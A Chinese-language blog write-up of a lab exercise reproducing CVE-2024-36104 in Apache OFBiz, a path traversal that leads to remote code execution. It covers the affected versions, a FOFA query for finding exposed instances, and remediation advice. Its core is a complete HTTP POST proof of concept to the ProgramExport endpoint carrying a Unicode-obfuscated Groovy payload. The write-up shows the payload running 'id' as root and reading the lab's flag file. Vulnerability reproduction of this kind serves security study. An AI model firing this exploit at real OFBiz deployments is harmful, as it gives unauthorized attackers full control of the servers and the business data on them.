 ```yaml
---
title: 【春秋云境】CVE-2024-36104复现
date: 2025-09-16
categories:
  - 靶场
image: images/74.webp
---
```

# 靶标介绍：
Apache OFBiz 目录遍历致代码执行漏洞，攻击者可构造恶意请求控制服务器。
该平台存在路径遍历漏洞，其成因是未对用户输入的 contextPath 参数进行充分验证。这使得未授权的攻击者能够通过精心构造的恶意请求绕过认证机制，进而访问系统中本应受保护的敏感接口，最终可能引发任意代码执行的严重后果。
# 漏洞影响版本
- **受影响版本​**​：`Apache OFBiz < 18.12.14`
- ​**​FOFA搜索语法​**​：`app="Apache_OFBiz"`
# 危害
- **未授权访问**：攻击者无需认证，通过构造恶意请求，可绕过验证机制，访问本应受限的敏感接口，进而获取系统中敏感信息，如用户数据、商业机密等，严重威胁数据的保密性。
- **远程代码执行**：漏洞允许攻击者利用`/webtools/control/ProgramExport`接口的编程导出功能，执行任意 Groovy 代码，从而实现远程代码执行，完全控制受影响的系统，可进行数据篡改、删除、植入恶意软件等操作，对系统的完整性和可用性造成极大破坏。
- **权限提升**：攻击者可借此漏洞从低权限用户提升至高权限用户，进而执行更广泛的系统操作，对整个系统的安全构成严重威胁。
- **中间人攻击风险**：攻击者可利用该漏洞篡改系统返回给合法用户的响应内容，实施中间人攻击，进一步获取用户敏感信息或向用户传播恶意内容。
- **大规模攻击风险**：由于 Apache OFBiz 在电子商务领域的广泛应用，该漏洞的存在使得大量系统面临被攻击的风险，一旦被大规模利用，可能导致众多企业及用户的业务中断、数据泄露等严重后果，影响范围广泛。
# 复现
访问：
```
https://39.106.48.123:31276/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250916131814.png)
```
正确路径应该加上/accounting/control/main
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250916131841.png)
这里显示你的ip为被加入到配置文件的相关允许配置参数中，所以显示了500，但是不影响后面操作，直接通过poc拿下。
可以看到一个 ERROR MESSAGE，出现报错，因为是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，所以把 Host 改为：localhost:port
## POC
```
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Host: localhost:31276
Cookie: OFBiz.Visitor=10002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 262

groovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0069\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```
得到 id 为 root，说明执行成功
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250916132946.png)
这里执行的远程命令是`throw new Exception('cat /flag'.execute().text);`用于获取flag
同样的 Unicode 编码
```
\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250916133133.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250916133157.png)
```
flag{c95e8bc5-409e-40c9-bd82-b7234b2987fe}
```
# 修复建议
1. **官方补丁​**​：升级至Apache OFBiz 18.12.14或更高版本
2. ​**​临时缓解措施​**​：
    - 禁用`webtools`模块的非必要接口。
    - 配置Web应用防火墙（WAF）拦截包含`%2e`或`;`的恶意请求。
3. ​**​输入过滤​**​：对`groovyProgram`参数实施白名单校验，禁止异常字符。